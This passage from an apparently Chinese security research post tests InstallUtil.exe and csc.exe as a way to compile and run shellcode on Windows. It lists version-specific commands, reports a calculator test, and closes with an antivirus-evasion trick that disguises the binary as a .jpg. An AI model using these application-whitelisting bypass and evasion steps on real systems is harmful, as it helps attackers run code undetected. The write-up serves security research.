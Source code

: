 使用.net 4.0 x86中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe  /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

报错，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/2325732c925d22591d8b690234896a82e1208b48.jpg)

为了得出正确的结论，在win8 x64系统上面安装.net framework x64 2.0

使用其中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe  /unsafe /platform:x64 /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

成功执行shellcode，弹出计算器

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/5961b3f5b944aec5ae0f03a94ea45a29a23b481e.jpg)

0x05 补充
=====

上述测试中操作系统自带的.net环境并不绝对，如果安装应用 也会默认安装相应版本的.net 环境

0x06 测试结论
=====

（1）利用InstallUtil.exe执行pe文件
--------------------------

适用于64位系统、Microsoft .NET Framework 4.0环境

（2）利用InstallUtil.exe直接执行shellcode
---------------------------------

适用于.NET Framework 2.0及特定环境

0x07 关于免杀
=====

仅给出一种简单有效的方法

参照上篇内容的思路，执行代码如下：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:exeshell.jpg Shellcode.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.jpg

```
